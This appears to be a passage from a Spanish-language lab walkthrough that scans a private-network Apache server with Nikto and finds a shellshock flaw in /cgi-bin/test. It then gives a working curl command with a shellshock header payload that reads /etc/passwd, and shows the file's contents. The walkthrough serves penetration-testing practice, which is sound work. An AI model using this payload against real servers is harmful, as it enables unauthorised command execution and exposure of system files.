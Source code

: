 ```
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.5.156 + Target Hostname: 192.168.5.156 + Target Port: 80 + Start Time: 2024-05-30 12:09:48 (GMT-4) --------------------------------------------------------------------------- + Server: Apache/2.2.22 (Ubuntu) + /: Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 13:55:10 2020. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418 + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ + /index: Uncommon header 'tcn' found, with contents: list. + /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275 + Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch. + /cgi-bin/test: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true. + /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278 + /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278 + OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST . + /cgi-bin/test/test.cgi: This might be interesting. + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/ + /#wp-config.php#: #wp-config.php# file found. This file contains the credentials. + 8909 requests: 0 error(s) and 13 item(s) reported on remote host + End Time: 2024-05-30 12:10:12 (GMT-4) (24 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
```

Con esto vemos una posible vulnerabilidad llamada `shellshock` en la ubicacion `/cgi-bin/test` por lo que haremos lo siguiente para comprobarlo...

### curl

```shell
curl -H "User-Agent: () { :; }; echo; echo; /bin/cat /etc/passwd" http://<IP>/cgi-bin/test
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```
